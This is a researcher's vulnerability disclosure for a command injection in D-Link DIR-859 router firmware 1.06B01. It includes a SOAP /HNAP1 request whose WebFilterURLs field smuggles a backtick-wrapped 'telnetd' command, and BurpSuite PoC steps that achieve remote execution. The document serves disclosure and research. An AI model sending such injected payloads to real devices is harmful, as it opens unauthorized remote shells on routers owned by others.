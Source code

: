 # DIR-859 CMD Injection
Vulnerability for D-Link Router

Product: D-Link DIR-859  (Refer: http://www.dlink.com.cn/home/product?id=2960)

Version: The latest firmware -- 1.06B01 (Download link: https://support.dlink.com/productinfo.aspx?m=DIR-859)

![image](3.png)

Vulnerability Type: Command Injection

Author: David Chen

Institution: Technology Research Institute of Legendsec at Qi'anxin Group

Vulnerability description
-------------------------
An issue was discovered on D-Link DIR-859 devices with firmware through 1.06B01. A command Injection vulnerability allows attackers to execute arbitrary OS commands via shell metacharacters in a crafted /HNAP1 request. This occurs when the WebFilterMethod function calls the system function with an untrusted input parameter named WebFilterURLs. Consequently, an attacker can execute any command remotely when they control this input. The details are as below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetWebFilterSettings>
 <WebFilterMethod>DENY</WebFilterMethod>
 <NumberOfEntry>2</NumberOfEntry>
 <WebFilterURLs>
  <string>www.baidu.com</string>
 <string>www.shohu.com`telnetd`</string></WebFilterURLs>
</SetWebFilterSettings>
</soap:Body>
</soap:Envelope>
```

The "WebFilterURLs" parameter is a string formed as bleow:

```xml
<string>www.baidu.com</string>
<string>www.sohu.com`telnetd`</string>
```
So if someone can POST data like this, they will execute command "telnetd" at the router.

POC
-------------------------

Step1: Attacker need to call "SetWebFilterSettings" fuction that setting "WebFilterURLs" value, so to add URLs at the web page as below:

![image](5.jpg)


Step2: To modify the "WebFilterURLs" value, Attacker need to intercpet at BurpSuite after they type "Save" button, and insert command "telnetd" to the parameter as below:

![image](1.png)

Step3: After sending POST packet as above, this PoC can result in a RCE that executes a "telnetd" command at router as below:

![image](4.png)

After that, command has already been added to the URLs, you can't do this at web page directly.

![image](2.png)

P.S. Given the vendor's security, we only provide parts of this exploit.
